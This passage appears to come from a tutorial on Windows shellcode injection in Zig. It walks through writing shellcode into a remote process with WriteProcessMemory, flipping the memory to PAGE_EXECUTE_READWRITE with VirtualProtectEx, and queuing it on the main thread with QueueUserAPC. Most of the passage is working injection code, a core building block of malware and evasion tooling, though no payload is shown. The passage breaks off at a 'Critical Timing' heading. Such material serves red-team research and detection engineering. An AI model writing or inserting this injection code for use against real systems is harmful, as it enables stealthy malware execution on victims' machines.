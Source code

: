 **Key Points:**

- `VirtualAllocEx` allocates memory in the target process
- Initially allocated with `PAGE_READWRITE` for writing
- Later changed to `PAGE_EXECUTE_READWRITE` for execution

### Writing Shellcode

```zig
// Write shellcode to allocated memory
if (WriteProcessMemory(
    hProcess,
    ppAddress.*.?,
    pShellcode.ptr,
    pShellcode.len,
    &sNumberOfBytesWritten,
) == 0 or sNumberOfBytesWritten != pShellcode.len) {
    print("\n\t[!] WriteProcessMemory Failed With Error : {d} \n", .{windows.kernel32.GetLastError()});
    return false;
}
```

### Memory Protection

```zig
// Change memory protection to executable
if (VirtualProtectEx(
    hProcess,
    ppAddress.*.?,
    pShellcode.len,
    PAGE_EXECUTE_READWRITE,
    &dwOldProtection,
) == 0) {
    print("\n\t[!] VirtualProtectEx Failed With Error : {d} \n", .{windows.kernel32.GetLastError()});
    return false;
}
```

## APC Queuing and Execution

Once the shellcode is injected, we queue it as an APC to the main thread:

```zig
// Queue APC to the main thread
_ = QueueUserAPC(
    @ptrCast(pAddress.?),  // Shellcode address cast as function pointer
    hThread,               // Main thread handle
    0,                     // No parameter data
);
```

**Critical Timing:**
